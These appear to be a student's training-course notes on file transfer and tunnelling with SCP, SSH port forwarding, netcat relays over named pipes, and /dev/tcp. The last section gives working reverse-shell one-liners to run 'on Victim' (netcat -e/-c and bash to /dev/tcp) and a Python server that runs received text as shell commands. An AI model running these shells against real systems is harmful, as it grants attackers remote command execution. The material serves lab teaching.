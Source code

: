 # Commands


- mknod                                                              # make a node in memory. needed for named pipes in netcat two way tunnel
- mknod mypipe p                                                     # Example of a node
- nc -lvp 10.0.0.1:1111 < mypipe | nc -lvp 10.0.0.2:3333 > mypipe    # Example to direct connect the two devices with a netcat relay
- nc -lp 1111 < mypipe | nc -lp 2222 > mypipe                        # Example for a relay that just opens the ports and waits for the other devices to connect.

## FTP Commands
> FTP commands to download and travers
- ls         # list directory
- pwd        # show present directory
- cd         # change directories
- get        # Download a file  
- wget -r    # recursively get everthing in the present directory. 
> you can specify the port like this.
- wget -r 10.0.0.103:1000 

## SCP
### SCP Options
```
.  - Present working directory
-v - verbose mode
-P - alternate port
-r - recursively copy an entire directory
-3 - 3-way copy
```

### SCP Syntax
- Download a file from a remote directory to a local directory
```$ scp student@172.16.82.106:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp secretstuff.txt student@172.16.82.106:/home/student```
- Copy a file from a remote host to a separate remote host
```
$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student
password:    password:
```

### SCP Syntax
- Recursive upload of a folder to remote
```$ scp -r folder/ student@172.16.82.106:```
- Recursive download of a folder from remote
```$ scp -r student@172.16.82.106:folder/ .```

### SCP Syntax w/ alternate SSHD
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:```

### SCP Syntax through a tunnel
- Create a local port forward to target device
```$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT```
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```

### SCP Syntax through a Dynamic Port forward
- Create a Dynamic Port Forward to target device
```$ ssh student@172.16.82.106 -D 9050 -NT```
- Download a file from a remote directory to a local directory
```$ proxychains scp student@localhost:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ proxychains scp secretstuff.txt student@localhost:```


## NETCAT
### NETCAT: Client to Listener file transfer
- Listener (receive file):
```nc -lvp 9001 > newfile.txt```
- Client (sends file):
```nc 172.16.82.106 9001 < file.txt```


### NETCAT: Listener to Client file transfer
- Listener (sends file):
```nc -lvp 9001 < file.txt```
- Client (receive file):
```nc 172.16.82.106 9001 > newfile.txt```


### NETCAT Relay Demos
> Listener - Listener
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```


### NETCAT Relay Demos
> Client - Client
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```

### NETCAT Relay Demos
> Client - Listener
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
```

### NETCAT Relay Demos
> Listener - Client
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```
nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
### File Transfer with /dev/tcp
- On the receiving box:
```$ nc -lvp 1111 > devtcpfile.txt```
- On the sending box:
```$ cat secret.txt > /dev/tcp/10.10.0.40/1111```
- This method is useful for a host that does not have NETCAT available.


## Reverse Shells
https://net.cybbh.io/public/networking/latest/09_file_transfer/fg.html#_9_3_reverse_shells


### Reverse shell using NETCAT
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim using -c :
```$ nc -c /bin/bash 10.10.0.40 9999```
- On Victim using -e :
```$ nc -e /bin/bash 10.10.0.40 9999```



### Reverse shell using /DEV/TCP
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim:
```$ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1```


### Reverse shell Python3
```
#!/usr/bin/python3
import socket
import subprocess
PORT = 1234        # Choose an unused port
print ("Waiting for Remote connections on port:", PORT, "\n")
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('', PORT))
server.listen()
while True:
    conn, addr = server.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, err = proc.communicate()
            response = output.decode() + err.decode()
            conn.sendall(response.encode())
server.close()
```
































